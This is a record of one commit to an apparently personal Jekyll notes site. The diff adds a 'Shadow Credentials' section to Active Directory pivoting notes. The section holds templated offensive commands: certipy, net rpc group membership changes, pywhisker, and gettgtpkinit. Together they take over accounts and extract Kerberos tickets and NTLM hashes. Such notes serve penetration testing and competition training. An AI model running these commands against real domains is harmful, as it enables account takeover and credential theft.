

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADPivoting.md, in a window 1280 px wide and 900 px high, scrolled down 2037 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
updated notes, largely certipy

```diff
--- a/markdown/ADPivoting.md
+++ b/markdown/ADPivoting.md
@@ -95,6 +95,20 @@
   - Dumping and using tickets is one of Rubeus's strong suits
   - `Rubeus.exe triage` to list available tickets
 
+**Shadow Credentials**
+- Seems certipy is the go-to here: `certipy shadow -u "{user}@{domain}" -p {password} -dc-ip {dc_ip} -account '{target_user}' auto`
+- If we have GenericWrite over a user from a group
+  - If we need to add ourselves or a user to the group first via GenericAll, we can use `net` on kali
+  	- `net rpc group addmem '{target_group}' {user_to_add} -U '{domain}/{owned_user}%{password} -S '{dc_fqdn}'`
+  - We can then use [pywhisker](https://github.com/ShutdownRepo/pywhisker) to add shadow credentials to the user
+	- `pywhisker -d "{domain}" -u "{owned_user}" -p "{owned_user_password}" --target "{target_user}" --action "add" --dc-ip {dc-ip} -f {filename} --pfx-password '{pfx_file_password}'`
+	- This gives us a pfx file for the user and a password for the pfx file
+  - Then, we use the pfx file with [gettgtpkinit](https://github.com/dirkjanm/PKINITtools) to get a ccache kerberos TGT
+	- `gettgtpkinit.py -cert-pfx {pfx_file} "{domain}/{target_user}" {user}.ccache -pfx-pass '{pfx_pass}' -dc-ip {dc_ip}`
+	- We could also use certipy, which gives us the user's NTLM hash as well
+	  - `certipy auth -pfx {pfx_file} -dc-ip {dc-ip} -domain {domain_name} -username {target_user}`
+	  	- Add `-no-save` if we don't want the ccache file
+
 **Abusing Domain Trusts**
 - Remember here that since we're using kerberos we have to use DNS instead of IPs
 - Gettind SIDs
```
Also changed, not shown: markdown/ADExploitation.md (+12 -2 lines), markdown/RedTeamingCCDC.md (+2 -0 lines), markdown/WindowsPrivilegeEscalation.md (+1 -0 lines).
